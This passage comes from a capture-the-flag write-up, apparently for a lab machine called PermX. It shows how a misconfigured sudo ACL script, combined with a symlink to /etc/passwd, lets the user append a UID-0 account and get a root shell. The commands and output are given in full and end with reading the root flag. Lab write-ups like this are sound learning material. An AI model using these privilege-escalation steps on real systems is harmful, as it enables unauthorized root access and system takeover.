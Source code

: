 > GTFOBIN : https://gtfobins.github.io/gtfobins/setfacl/

![](/assets/obsidian/388f34427dbcd31424c21208539bf058.png)

Create a soft link from `/etc/passwd` to `/home/mtz/passwd` then add user with root id by writing `/etc/passwd`

```bash
mtz@permx:~$ ln -s /etc/passwd passwd
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd
mtz@permx:~$ HASH=$(openssl passwd -1 -salt gg gg); echo "gg:${HASH}:0:0:root:/root:/bin/bash" >> passwd
mtz@permx:~$ su - gg
Password:
root@permx:~# id
uid=0(root) gid=0(root) groups=0(root)
root@permx:~# cat /root/root.txt
010c3511917ae71d3a0289794b6082a8
```

# Additional
---
